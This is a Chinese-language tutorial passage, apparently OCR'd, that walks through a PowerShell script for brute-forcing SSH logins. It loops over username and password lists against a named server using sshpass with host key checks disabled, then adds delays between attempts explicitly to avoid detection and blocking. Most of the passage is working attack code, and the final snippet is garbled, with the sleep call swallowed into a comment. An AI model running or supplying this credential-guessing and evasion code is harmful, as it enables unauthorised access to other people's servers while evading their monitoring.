 ## SSH 登录尝试脚本

编写 PowerShell 脚本，使用准备好的凭证自动化 SSH 登录尝试。PowerShell 的脚本功能允许嵌套循环遍历所有可能的组合：

```
 $sshServer = "ssh.snowcapcyber.com"
$sshPort = 22
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        # Construct the SSH command
        $sshCommand = "sshpass -p '$password' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p $sshPort $username@$sshServer"
        try {
            # Execute the SSH command
            Invoke-Expression -Command $sshCommand
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        }
        catch {
            # Handle SSH server response (e.g., incorrect credentials)
            Write-Host "Login failed: $username:$password - $_"
        }
    }
}
```

该脚本尝试使用每种用户名和密码组合进行登录。它使用 **sshpass** 命令将密码传递给 SSH 命令，并使用 **Invoke-Expression** cmdlet 执行 SSH 命令。成功登录后触发进一步的操作，而失败的尝试和相应的错误消息会被捕捉。

## 处理 SSH 服务器响应

SSH 服务器会以各种消息响应，指示登录尝试的成功或失败。PowerShell 脚本可以解析这些响应，以确定每次暴力破解尝试的结果：

```
 try {
    # Execute the SSH command
    Invoke-Expression -Command $sshCommand
    Write-Host "Login successful: $username:$password"
    # Perform additional actions based on a successful login
}
catch {
    # Handle SSH server response (e.g., incorrect credentials)
    $errorMessage = $_.Exception.Message
    Write-Host "Login failed: $username:$password - $errorMessage"
}
```

## 速率限制与隐匿性

为了避免被检测并减轻被 SSH 服务器屏蔽的风险，考虑在登录尝试之间引入延迟。可以使用 PowerShell 的 **Start-Sleep** cmdlet 实现这一点：

```
 $delaySeconds = 2
foreach ($username in $usernames) {
    foreach ($password in $passwords) {
            # This is the code section that tries
# to connect and authenticate a user.         Start-Sleep -Seconds $delaySeconds
    }
}
```
